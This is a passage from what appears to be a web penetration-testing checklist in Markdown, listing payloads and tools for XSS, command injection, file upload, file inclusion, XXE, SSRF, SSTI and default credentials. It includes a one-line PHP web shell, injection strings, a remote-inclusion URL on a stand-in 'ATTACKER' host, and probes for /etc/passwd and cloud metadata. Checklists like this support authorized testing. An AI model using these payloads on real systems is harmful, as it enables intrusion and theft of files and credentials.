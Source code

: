 - [ ] **Cross-Site Scripting (XSS)**
  - [ ] Reflected: `<script>alert(1)</script>`
  - [ ] Stored: Test in comments, profiles, forms
  - [ ] DOM-based: Check client-side JavaScript
  - [ ] `xsser -u "TARGET?param=XSS"`
  - [ ] `dalfox url TARGET`

- [ ] **Command Injection**
  - [ ] `; id`, `| id`, `` `id` ``, `$(id)`
  - [ ] Blind: `; sleep 10`, `| ping -c 10 ATTACKER`
  - [ ] Test in: ping utilities, file operations, system commands

- [ ] **File Upload**
  - [ ] Upload PHP shell: `<?php system($_GET['c']); ?>`
  - [ ] Bypass filters: double extension (.php.jpg), case manipulation (.PhP)
  - [ ] Null byte: `shell.php%00.jpg`
  - [ ] Magic bytes: Add GIF89a to PHP shell
  - [ ] Test execution: Access uploaded file

- [ ] **Local File Inclusion (LFI)**
  - [ ] `../../../../etc/passwd`
  - [ ] `../../../../windows/win.ini`
  - [ ] PHP wrappers: `php://filter/convert.base64-encode/resource=index.php`
  - [ ] Log poisoning: Inject PHP in User-Agent, include log file

- [ ] **Remote File Inclusion (RFI)**
  - [ ] `http://ATTACKER/shell.txt`
  - [ ] Host malicious file, include it

- [ ] **XML External Entity (XXE)**
  - [ ] `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
  - [ ] Test in XML inputs, SOAP APIs
  - [ ] Blind XXE via OOB

- [ ] **Server-Side Request Forgery (SSRF)**
  - [ ] `http://169.254.169.254/latest/meta-data/` (AWS)
  - [ ] `http://localhost:22`, `http://127.0.0.1:3306`
  - [ ] Scan internal network
  - [ ] Read internal files: `file:///etc/passwd`

- [ ] **Insecure Deserialization**
  - [ ] Identify serialized objects (Java, PHP, Python)
  - [ ] `ysoserial` for Java
  - [ ] `phpggc` for PHP

- [ ] **Server-Side Template Injection (SSTI)**
  - [ ] `{{7*7}}`, `<%= 7*7 %>`, `${7*7}`
  - [ ] Identify template engine
  - [ ] RCE payloads for specific engine

### Authentication & Session Management
- [ ] **Default credentials**
  - [ ] admin/admin, admin/password
  - [ ] Check vendor documentation
  - [ ] `cewl TARGET` to generate custom wordlist
